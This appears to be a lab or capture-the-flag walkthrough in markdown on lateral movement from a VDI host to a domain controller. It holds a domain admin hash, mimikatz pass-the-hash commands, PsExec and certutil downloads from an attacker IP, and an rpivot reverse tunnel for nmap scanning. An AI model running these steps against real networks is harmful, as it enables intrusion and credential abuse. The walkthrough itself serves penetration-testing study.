

# Lateral Movement 1 - From VDI to DC

- [Lateral Movement 1 - From VDI to DC](#lateral-movement-1---from-vdi-to-dc)
  - [Access Nuclear DC](#access-nuclear-dc)
  - [Enumerate Domain](#enumerate-domain)
  - [Enumerate Jump-Server](#enumerate-jump-server)

----

## Access Nuclear DC

Domain Admin `administrator` NTLM: `4fc382c2e14308faef3de7494a08f27a`

<br/>

First check the DC hostname and IP:

```
nslookup -type=any _ldap._tcp.dc._msdcs.nuclear.site
```

  

* `nuclear-dc.nuclear.site`
* `10.1.1.3`

<br/>

Again, use over-pass-the-hash technique:

```
.\mimikatz.exe
```

```
privilege::debug
```

```
sekurlsa::pth /domain:nuclear.site /user:administrator /ntlm:4fc382c2e14308faef3de7494a08f27a /run:cmd.exe
```

  

<br/>

Then run powershell and PSRemote to `nuclear-dc`:

```
powershell -ep bypass
```

```
Enter-PSSession -ComputerName nuclear-dc.nuclear.site
```

  

* However, error occurs.

<br/>

Try to list C$ on the DC:

```
dir \\nuclear-dc.nuclear.site\c$
```

  

- As shown, we have the privilege to access the DC.

<br/>

Instead, use `PsExec.exe` to access Nuclear-DC:

```
wget http://192.168.100.11/PsExec.exe -OutFile .\PsExec.exe
```

```
.\PsExec.exe \\nuclear-dc.nuclear.site cmd.exe
```

  

<br/>

## Enumerate Domain

Enuemrate domain users:

```
net user /domain
```

  

<br/>

To query the domain computers:

```
netdom query /d:nuclear.site WORKSTATION && netdom query /d:nuclear.site SERVER
```

  

<br/>

## Enumerate Jump-Server

Check the IP address of JUMP-SERVER:

```
nslookup JUMP-SERVER
```

  

* Jump-Server - `10.1.1.4`

To get more information about `10.1.1.4`, enumerate using `nmap`.

First use `rpivot` to establish a tunneled connection. On the attacker machine, launch `rpivot` server:

```
python server.py --server-port 8082 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9051
```

<br/>

On nuclear-dc:

```
cd C:\Users\Public && certutil -urlcache -f http://192.168.100.11/client.exe .\client.exe
```

```
client.exe --server-ip 192.168.100.11 --server-port 8082
```

  

<br/>

Then perform nmap scanning via Proxychains:

```
proxychains nmap -Pn -sT -T4 10.1.1.4 --top-ports 20 --min-rate 10000
```

  

- Only `SSH` is opened for the top 20 ports.

<br/>

